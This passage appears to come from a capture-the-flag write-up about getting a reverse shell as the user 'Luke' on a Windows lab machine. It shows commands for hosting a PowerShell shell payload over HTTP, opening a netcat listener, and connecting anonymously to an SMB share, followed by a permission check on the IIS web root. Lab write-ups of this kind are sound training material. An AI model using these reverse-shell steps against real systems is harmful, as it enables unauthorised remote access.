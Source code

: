 ### Shell as Luke

1. **First terminal (left terminal):**
- Setup server to host file shell.ps1
    - `sudo python3 -m http.server 80`
1. Second terminal:
- Setup listener
    - `rlwrap nc -lvnp <listener_port that you use to build payload>`
1. Third terminal:
- Connect to SMB share
    - `smbclient -N //<target_ip>/malware_dropbox`

![image.png](image%2012.png)

I now have Luke's shell access, but I can't read the flag since Luke doesn't have sufficient permissions. We'll need to gain root privileges to access the flag - quite the challenge! 

![image.png](image%2013.png)

![image.png](image%2014.png)

Then i use icalcs to reveal permissions for the IIS web server root directory, `c:\inetpub\wwwroot`

`icalcs c:\inetpub\wwwroot`
